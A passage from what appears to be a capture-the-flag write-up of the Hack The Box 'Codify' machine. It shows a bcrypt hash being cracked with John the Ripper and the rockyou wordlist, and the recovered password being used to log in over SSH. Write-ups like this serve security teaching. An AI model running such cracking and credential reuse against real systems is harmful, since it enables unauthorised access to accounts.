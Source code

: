 I have discover the password of joshua, but  in the Hash format, I try to crack it:
```
┌──(kali㉿kali)-[~/Codify]
└─$ nano hash.txt

┌──(kali㉿kali)-[~/Codify]
└─$ cat hash.txt     
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

┌──(kali㉿kali)-[~/Codify]
└─$ john hash.txt -wordlist:/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:01:16 DONE (2023-12-08 12:55) 0.01310g/s 17.68p/s 17.68c/s 17.68C/s crazy1..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

I have discover the  joshua credentials:
```
joshua:spongebob1
```

I take the `user flag`:
```
┌──(kali㉿kali)-[~/Codify]
└─$ ssh joshua@10.10.11.239    
joshua@10.10.11.239's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Dec  8 05:58:57 PM UTC 2023

  System load:                      0.04296875
  Usage of /:                       63.6% of 6.50GB
  Memory usage:                     24%
  Swap usage:                       0%
  Processes:                        260
  Users logged in:                  0
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:452c


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

```